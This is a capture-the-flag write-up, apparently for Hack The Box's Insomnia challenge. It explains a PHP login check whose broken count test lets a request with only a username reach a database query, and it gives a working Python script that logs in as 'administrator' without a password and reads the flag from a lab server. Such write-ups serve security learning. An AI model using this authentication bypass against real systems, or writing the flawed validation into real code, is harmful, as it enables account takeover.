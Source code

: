 ##This is my soultion to Isomnia Challenge in Hackthebox
```
 if (!count($json_data) == 2) {
            return $this->respond("Please provide username and password", 404);
        }
```
I think Dev made some mistakes here , It should be 

```
 if (count($json_data) !== 2) {
            return $this->respond("Please provide username and password", 404);
        }
```

The Other Mistake that devs made is 
```
        $query = $db->table("users")->getWhere($json_data, 1, 0);
```
He just checked username for validation, actually he just check everything that included in $json_data but due to the mistake he made in above, it becomes a serious vulnerability
#Here is my exploit

```python
import requests
from bs4 import BeautifulSoup as bs

url = "http://94.237.62.149:54590/index.php"

def get_admin_token():
    full_path = f"{url}/login"
    headers = {"Content-Type": "application/json"}
    data = {"username" : "administrator"}
    respond = requests.post(full_path,headers=headers,json=data)
    token = respond.text.split('"')[7]
    get_flag(token)
    
def get_flag(token):
    full_path = f"{url}/profile"
    cookies = {"token":token}
    flag = requests.get(full_path,cookies=cookies)
    soup = bs(flag.content,"html5lib")
    flag = soup.find("div",attrs={"class":"home__desc"})
    flag = flag.text.strip()
    print(f"Flag is => {flag}")

if __name__ == "__main__":
    get_admin_token()
```
